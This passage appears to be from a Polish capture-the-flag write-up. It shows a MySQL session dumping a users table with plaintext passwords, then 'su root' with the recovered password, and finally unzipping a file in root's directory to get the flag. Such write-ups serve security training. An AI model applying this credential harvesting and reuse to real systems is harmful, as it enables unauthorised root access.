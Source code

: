 ```sql
mysql> show tables;
show tables;
+--------------------+
| Tables_in_accounts |
+--------------------+
| users              |
+--------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+-------+---------------------+
| login | password            |
+-------+---------------------+
| root  | bjsig4868fgjjeog    |
| mike  | WhatAreYouDoingHere |
+-------+---------------------+
2 rows in set (0.00 sec)

mysql>
```
```console
mike@host2:~$ su root
su root
Password: bjsig4868fgjjeog
```
W katalogu root był spakowany plik zipem. Hasło do pliku wcześniej znaleźliśmy w bazie. Po rozpakowaniu pliku zdobyliśmy flagę.
{: .text-justify}
